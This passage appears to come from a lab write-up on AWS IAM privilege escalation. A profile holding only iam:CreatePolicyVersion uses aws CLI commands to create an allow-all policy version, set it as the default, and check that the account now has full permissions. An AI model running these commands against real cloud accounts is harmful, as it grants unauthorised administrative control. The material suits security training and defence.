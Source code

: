 ```
❯ aws iam create-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc1-CreateNewPolicyVersion --policy-document file://./allow_all.json --set-as-default --profile privesc1
{
    "PolicyVersion": {
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2024-02-15T12:25:14+00:00"
    }
}
```

If you will view the policy version `v1` again, you will observe `IsDefaultVersion` is set to `false`.

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc1-CreateNewPolicyVersion --version-id v1 --profile ayush
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": "iam:CreatePolicyVersion",
                    "Effect": "Allow",
                    "Resource": "*"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": false,
        "CreateDate": "2024-01-21T19:26:56+00:00"
    }
}
```

Fetch the latest version `v2` that we just created and set as default version, and you can observe the the policy permits All Actions on All the resources. Also, observe the `IsDefaultVersion` is set to `true.` 

```
❯ aws iam get-policy-version --policy-arn arn:aws:iam::9[REDACTED]2:policy/privesc1-CreateNewPolicyVersion --version-id v2 --profile ayush
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Sid": "AllowEverything",
                    "Effect": "Allow",
                    "Action": "*",
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v2",
        "IsDefaultVersion": true,
        "CreateDate": "2024-02-15T12:25:14+00:00"
    }
}
```
